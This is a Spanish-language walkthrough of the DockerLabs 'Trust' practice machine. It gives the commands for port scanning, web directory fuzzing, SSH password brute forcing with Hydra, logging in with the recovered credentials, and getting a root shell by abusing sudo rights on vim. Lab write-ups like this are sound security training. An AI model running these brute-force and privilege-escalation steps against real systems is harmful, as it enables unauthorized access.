



# DockerLabs - Trust

> Máquina enfocada en enumeración web, fuerza bruta SSH y escalada de privilegios mediante permisos sudo sobre `vim`.

---

# Reconocimiento

## Escaneo con Nmap

Primero realizo un escaneo general para identificar los puertos abiertos en la máquina víctima.

sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.18.0.2

### Puertos encontrados

| Puerto | Servicio |
| ------ | -------- |
| 22     | SSH      |
| 80     | HTTP     |

---

# Enumeración Web

## Fuzzing con Gobuster

Realizo fuzzing web para descubrir archivos y directorios ocultos.

gobuster dir -u http://172.18.0.2 -w /usr/share/wordlists/dirb/common.txt -x php,html,txt

### Hallazgo

* secret.php

---

## Análisis de secret.php

curl http://172.18.0.2/secret.php

### Información obtenida

Mensaje encontrado:

Hola Mario

Usuario identificado:

* mario

---

# Fuerza Bruta SSH

Con el usuario identificado realizo un ataque de fuerza bruta utilizando Hydra.

hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.18.0.2

### Credenciales encontradas

| Usuario | Contraseña |
| ------- | ---------- |
| mario   | chocolate  |

---

# Acceso SSH

Utilizo las credenciales encontradas para conectarme al sistema.

ssh mario@172.18.0.2

---

# Escalada de Privilegios

## Enumeración sudo

Verifico los permisos sudo del usuario.

sudo -l

### Resultado

El usuario `mario` puede ejecutar:

/usr/bin/vim

como root.

---

## Obtención de root

sudo vim -c ':!/bin/bash'

Verificación de privilegios:

whoami

root

---

# Máquina comprometida exitosamente
